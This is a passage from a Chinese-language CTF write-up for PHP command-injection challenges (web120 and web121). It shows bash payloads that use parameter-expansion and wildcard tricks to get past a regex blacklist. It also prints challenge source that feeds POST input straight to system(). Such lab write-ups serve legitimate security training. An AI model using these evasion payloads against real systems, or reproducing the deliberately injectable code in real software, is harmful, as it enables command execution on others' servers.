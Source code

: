 这题把上题的HOME也ban了，但是第二种方法还能出，而且长度也符合

```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.???
```

![image-20250118212249002](../assets/image-20250118212249002.png)



或

```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?${USER:~A}? ????.???
```



#### web121

```php

<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|HOME|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>
```
